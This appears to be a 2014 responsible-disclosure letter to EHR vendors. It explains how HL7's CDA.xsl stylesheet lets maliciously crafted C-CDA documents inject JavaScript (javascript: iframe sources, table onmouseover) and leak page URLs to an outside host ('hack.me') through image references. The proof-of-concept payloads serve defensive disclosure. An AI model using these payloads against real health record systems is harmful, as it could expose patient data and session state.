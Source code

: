 ﻿### Dear EHR Vendor,

As a medical informatics researcher at Boston Children's Hospital, I'm
writing to share some security considerations pertinent to any EHR that
displays Consolidated CDA documents for Meaningful Use (especially in a Web
browser environment). I would appreciate if you could ensure that the message
below reaches someone on your security team.

Best,

Josh Mandel, MD  
Lead Architect, SMART Platforms  
Harvard Medical School / Boston Children's Hospital  

---

### Dear Security Team,

I'm writing to report a *potential security vulnerability* in the display of
Consolidated CDA documents. To be clear, I haven't tested whether your EHR
products are vulnerable to the issues below, but I have found that *these vulnerabilities 
affect some production EHR systems*, so I wanted to share this report with
Web-based EHR vendors privately before I describe it in public on the [SMART Platforms
blog](http://smartplatforms.org).

In short, the concern has to do with the use of XSLT "stylesheets" to
display externally-supplied C-CDA documents in the EHR. To be specific:
**the CDA.xsl stylesheet provided by HL7 (which I've seen broadly adopted by many EHR vendors) can  leave EHRs vulnerable to attacks by maliciously-composed documents.**

The "TL;DR" version is: If you're using XSLT stylesheets to render C-CDAs in
your EHR, make sure you understand the security implications. Otherwise you
could be vulnerable to a data breach.

**I would appreciate if you could reply to me** so I can track the dissemination of
this notice. My plan is publish a public blog post on
3/21/2014. If you discover that your system is vulnerable and you need more
time to repair it, please let me know prior to 3/20, and I can delay publication if necessary.

Best,

  Josh Mandel, MD  
  Lead Architect, SMART Platforms  
  Harvard Medical School / Boston Children's Hospital


### Three fundamental attacks

Many vendors appear to be using (slightly modified) versions of the
[CDA.xsl](https://github.com/chb/sample_ccdas/blob/master/CDA.xsl) that comes
with HL7's C-CDA release. This provides potential attackers with a highly
visible, leveragable target.

My analysis revealed at least three ways to craft a malicious C-CDA. I'll describe them in detail...


#### 1. Unsanitized `nonXMLBody/text/reference/@value` can execute JavaScript
One opportunity for injection attacks is the default handling of a `nonXMLBody` CDA. 

```
<xsl:template match='n1:component/n1:nonXMLBody'>
  <xsl:choose>
  <!-- if there is a reference, use that in an IFRAME -->
  <xsl:when test='n1:text/n1:reference'>
  <IFRAME name='nonXMLBody' id='nonXMLBody' WIDTH='80%' HEIGHT='600' src='{n1:text/n1:reference/@value}' />
</xsl:when>
```

This means we can get javascript to execute if we can supply it in a reference like:

```
<nonXMLBody>
  <text>
    <reference value="javascript:alert(window.parent.location);"/>
  </text>
</nonXMLBody>
```

The XSLT-output HTML rendering would include the following dangerous snippet:

```
  <iframe src="javascript:alert(window.parent.location);"></iframe>
```

#### 2. Unsanitized `table/@onmouseover` can execute JavaScript

A valid C-CDA document is not allowed to provide `table/@onmouseover`
attributes. But if invalid documents are allowed into a system, then the
following permissive "copy all" can be dangerous:

```
<!-- Tables -->
<xsl:template
  match="n1:table/@*|n1:thead/@*|n1:tfoot/@*|n1:tbody/@*|n1:colgroup/@*|n1:col/@*|n1:tr/@*|n1:th/@*|n1:td/@*">
  <xsl:copy>
    <xsl:copy-of select="@*" />
    <xsl:apply-templates />
  </xsl:copy>
```

What this says is: "when you find a `table` in the C-CDA document, just copy
all of its XML attributes right into the rendered document." An attacker can use
this to inject JavaScript in the resulting document. For example, an attacker
could steal cookies and application state, and them back to an external server.

A source C-CDA document would supply a table like:

```
<table 
   onmouseover="alert(window.parent.location);"
   style="height: 100%; width: 100%; position: fixed; left: 0px; top: 0px;">
</table>
```

... and the XSLT-output HTML rendering would contain the source `table` element verbatim.


#### Unsanitized `observationMedia/value/reference/@value` can leak state via HTTP `Referer` headers

Searching CDA.xsl for the term `img`, reveals two places where image tags are
emitted.  Both occur within the `renderMultiMedia` template definition:

```
<xsl:template match="n1:renderMultiMedia">
  <xsl:variable name="imageRef" select="@referencedObject" />
      <!-- snipped for brevity -->
      <xsl:if
        test="//n1:observationMedia[@ID=$imageRef]/n1:value[@mediaType='image/gif' or @mediaType='image/jpeg']">
        <br clear="all" />
        <xsl:element name="img">
          <xsl:attribute name="src"><xsl:value-of
              select="//n1:observationMedia[@ID=$imageRef]/n1:value/n1:reference/@value" /></xsl:attribute>
        </xsl:element>
      </xsl:if>
      <!-- snipped for brevity -->
</xsl:template>
```

By constructing an appropriate `section` in a C-CDA document to act as input to
the template above, an attacker can cause the browser to leak the current page
URL to `https://hack.me`:

```
<text>
  This image loads from an external server...
  <renderMultiMedia referencedObject="MM1"></renderMultiMedia>
</text>
<entry>
  <observationMedia ID="MM1">
    <id root="10.23.4567.345"/>
    <value xsi:type="ED" mediaType="image/jpeg">
      <reference value="https://hack.me/leaked-from-image.png"/>
    </value>
  </observationMedia>
</entry>
```

The XSLT-output HTML rendering would include the potentially dangerous snippet:

```
<img src="https://hack.me/leaked-from-image.png"></img>
```

Each time the document is viewed, the browser sends an HTTP `Referer` header to `hack.me` that inclues the source page URL. This can be dangerous if any private session state is embedded in that URL.
